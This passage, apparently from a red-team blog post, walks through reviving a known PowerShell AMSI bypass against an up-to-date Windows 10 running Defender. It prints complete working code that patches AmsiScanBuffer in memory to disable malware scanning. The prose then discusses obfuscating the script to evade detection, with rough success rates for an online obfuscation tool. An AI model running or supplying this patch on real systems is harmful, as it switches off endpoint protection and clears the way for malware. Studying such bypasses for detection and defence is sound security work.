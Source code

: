 

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

Note that the "Add-Type" technique is not the best if [trying to remain
stealthy](
https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass),
but we will ignore that for today.

Let's try to run this .ps1 on an up to date Windows 10 running
Windows Defender:


![image1.png]({{ site.url }}{{ site.baseurl }}/assets/images/amsi/image1.png)


As hinted previously, the script now gets caught. We will focus on
"refreshing" it and making it work. As a script kiddie, we decided that we'd rather not have to change anything, so we will make **zero modification** to the actual script. Just a little bit of PowerShell magic.

Before we get started, this [blog post](
https://fatrodzianko.com/2020/08/25/getting-rastamouses-amsiscanbufferbypass-to-work-again/)
shows that it can be rewritten into a working bypass with a little bit of
effort. The result still works, six months later. But that kind of rewriting is way too much
thinking for a script kiddie.

We can also obfuscate automatically our original script using [AMSI.fail](
https://amsi.fail/). This tool will alternate between obfuscation
techniques each time we run it. In my limited experience, we obtain an
undetected result less than 25% of the time when trying to obfuscate Rasta
Mouse's original script. As in, you have to run the tool several times before having a working result. It kinda passes the script kiddie threshold, but
it's also a bit too much trial and error.
